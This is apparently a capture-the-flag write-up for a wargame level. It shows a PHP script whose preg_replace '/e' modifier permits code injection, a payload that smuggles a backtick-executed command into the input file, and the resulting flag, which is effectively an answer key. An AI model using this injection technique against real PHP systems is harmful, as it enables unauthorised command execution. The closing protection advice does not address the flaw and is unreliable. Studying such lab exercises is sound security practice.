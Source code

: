 # Level06

### Tools


### How to solve it

1. After loging in using ssh in level06@(vmIP): 
```
ssh level06@000.000.000.000 -p 4242
```
2. When loging we type ls -l and we have two files:
```
level06 ->Executable
level06.php - > Source code
```
3. If you check the code we have this:
```
#!/usr/bin/php
<?php

function y($m) {
//Searches for dots and exchange then for 'x'. then @ for y
$m = preg_replace("/\./", " x ", $m);
$m = preg_replace("/@/", " y", $m);
return $m;
}

function x($y, $z) {
//It reads the content of the file(the code we will execute).
//Then it replace some texts, but the '/e' has a security breach
//It can execute a malicious code that is fixed in recent PHP versions
$a = file_get_contents($y);
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
$a = preg_replace("/\[/", "(", $a);
$a = preg_replace("/\]/", ")", $a);
return $a;
}
//It will execute x function with 2 arguments.
$r = x($argv[1], $argv[2]);
print $r;

?>
```
4. After analyzing this code we get to the breach on /e and then we have to insert a malicious code to get the flag there.
```
[x (command)]
```
5. Then we have to send the getflag command to an file so it will be read in level06 executable
```
echo '[x ${`getflag`}]' > /tmp/flagargv
```
6. No we just execute the main file with the flagcode argument.
```
./level06 /tmp/flagargv
```
7. And Boom:
```
wiok45aaoguiboiki2tuin6ub
```
### How to protect
 - Once someone is inside your system and if you do not monitor it it's because you failed before,  one additional proction would be implemeting passwords in important files

